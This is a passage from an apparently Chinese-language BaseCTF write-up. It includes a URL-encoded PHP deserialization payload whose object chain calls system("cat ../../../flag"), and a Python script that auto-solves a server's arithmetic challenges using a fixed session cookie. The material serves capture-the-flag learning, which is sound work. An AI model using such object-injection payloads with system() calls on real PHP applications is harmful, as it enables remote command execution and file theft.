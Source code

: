 然后再修改序列化，将之前的私有属性修改回来，再进行

url编码

```
O%3A6%3A%22Nature%22%3A1%3A%7Bs%3A3%3A%22sea%22%3BO%3A3%3A%22Sea%22%3A1%3A%7Bs%3A6%3A%22animal%22%3BO%3A5%3A%22Shark%22%3A1%3A%7Bs%3A11%3A%22%00Shark%00word%22%3BO%3A4%3A%22Sink%22%3A1%3A%7Bs%3A9%3A%22%00Sink%00cmd%22%3Bs%3A28%3A%22system%28%22cat+..%2F..%2F..%2Fflag%22%29%3B%22%3B%7D%7D%7D%7D
```

### [Week2] 数学大师

```
import requests
import time

url = "http://challenge.basectf.fun:28753/"
session = requests.Session()
cookie = {
    "PHPSESSID": "uaef912egrmo035357g3jvb4kk"
}

session = requests.Session()
r = session.get(url=url,cookies=cookie)
a = r.text

def c(a):
    n = ""
    for k in range(len(a) - 2, -1, -1):
        if a[k] == ' ':
            break
        n += a[k]
    b = n[::-1]
    print(b)
    for i in range(len(b)):
        if b[i] == '+':
            c = b.split('+')
            d = int(c[0]) + int(c[1])
            break
        if b[i] == '-':
            c = b.split('-')
            d = int(c[0]) - int(c[1])
            break
        if b[i] == '×':
            c = b.split('×')
            d = int(c[0]) * int(c[1])
            break
        if b[i] == '÷':
            c = b.split('÷')
            d = int(c[0]) // int(c[1])
            break
    return d

while True:
    answer = c(a)
    data = {
        'answer': answer
    }
    r = session.post(url=url, data=data, cookies=cookie)
    a=r.text
    print(r.text)

```
